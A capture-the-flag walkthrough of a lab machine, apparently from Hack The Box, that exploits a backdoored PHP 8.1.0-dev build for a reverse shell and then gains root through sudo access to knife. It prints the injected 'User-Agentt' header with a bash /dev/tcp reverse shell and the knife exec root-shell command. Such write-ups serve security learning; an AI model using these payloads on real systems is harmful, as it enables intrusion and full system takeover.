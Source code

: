 ## Phase 1: Enumeration

As always we start off with an nmap scan:


Nmap didn't show any outdated services, so we can check out the website
Visiting 10.10.10.242 we can see that it's a static page - nothing interesting there: 
> Checking the source code with ctrl+u doesn't show anything interesting either, however
> After going over to network tab through developer tools I saw this response header: ```X-Powered-By: PHP/8.1.0-dev```
* Since PHP 8.1.0 is outdated it's probably vulnerable to an exploit => ```https://www.exploit-db.com/exploits/49933```

## Phase 2: Exploitation

First I set up nc to listen on port 9001 (nc -lvnp 9001), then
I used Burp Suite and FoxyProxy to intercept request of http://10.10.10.242/ and send this request:
(image)
* Added ```User-Agentt:zerodiumsystem("bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 '");```

I sent the request and got a reverse shell: 
(image)
I then navigated to home/james and used ```cat user.txt``` to obtain the user flag
(user flag image)

## Phase 3: Privilege escalation

I started things out by running sudo -l to see which commands can be executed as sudo on this machine, as it turns out, we can execute /usr/bin/knife. Great!
(image of sudo-l)

So now I simply executed ```sudo knife exec --exec "exec '/bin/sh -i' "``` in the command line to get root.
After that I navigated to /root and used ```cat root.txt``` to get root flag
(root flag image)

And the box is complete!
